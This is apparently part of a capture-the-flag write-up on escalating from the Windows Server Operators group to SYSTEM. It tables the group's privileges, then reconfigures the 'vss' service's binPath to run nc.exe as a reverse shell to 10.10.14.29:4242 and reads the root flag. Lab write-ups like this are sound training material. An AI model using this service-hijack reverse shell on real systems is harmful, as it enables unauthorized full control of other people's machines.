 **Server Operator**
|------------------------------|-----------------------------------------------------------------------------------|
| Attribute                    | Value                                                                             |
|------------------------------|-----------------------------------------------------------------------------------|
| Well-Known SID/RID           | S-1-5-32-549                                                                      |
|------------------------------|-----------------------------------------------------------------------------------|
| Type                         | Builtin Local                                                                     |
|------------------------------|-----------------------------------------------------------------------------------|
| Default container            | CN=Builtin, DC=<domain>, DC=                                                      |
|------------------------------|-----------------------------------------------------------------------------------|
| Default members              | None                                                                              |
|------------------------------|-----------------------------------------------------------------------------------|
| Default member of            | None                                                                              |
|------------------------------|-----------------------------------------------------------------------------------|
| Protected by ADMINSDHOLDER?  | Yes                                                                               |
|------------------------------|-----------------------------------------------------------------------------------|
| Safe to move out of default  |                                                                                   |
| container?                   | Cannot be moved                                                                   |
|------------------------------|-----------------------------------------------------------------------------------|
| Safe to delegate management  |                                                                                   |
| of this group to non-service |                                                                                   |
| admins?                      | No                                                                                |
|------------------------------|-----------------------------------------------------------------------------------|
| Default User Rights          | Allow log on locally: SeInteractiveLogonRight                                     |
|                              | Back up files and directories: SeBackupPrivilege                                  |
|                              | Change the system time: SeSystemTimePrivilege                                     |
|                              | Change the time zone: SeTimeZonePrivilege                                         |
|                              | Force shutdown from a remote system: SeRemoteShutdownPrivilege                    |
|                              | Restore files and directories: Restore files and directories SeRestorePrivilege   |
|                              | Shut down the system: SeShutdownPrivilege                                         |
|------------------------------|-----------------------------------------------------------------------------------|

Long story short: We can stop and start services and modify its path with the current access 
 * uploaded a copy of `nc.exe`
 * Run this command:
 * sc.exe config vss binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd.exe 10.10.14.29 4242" 

```Console
C:\Windows\system32>whoami
whoami
nt authority\system
```
You have to move quicly as the service tends to give the following error after a minute or so:
```Console
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc.exe start vss
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

Found `root.txt`
```Console
C:\Users\Administrator\Desktop>type root.txt
ba5*****************************
```
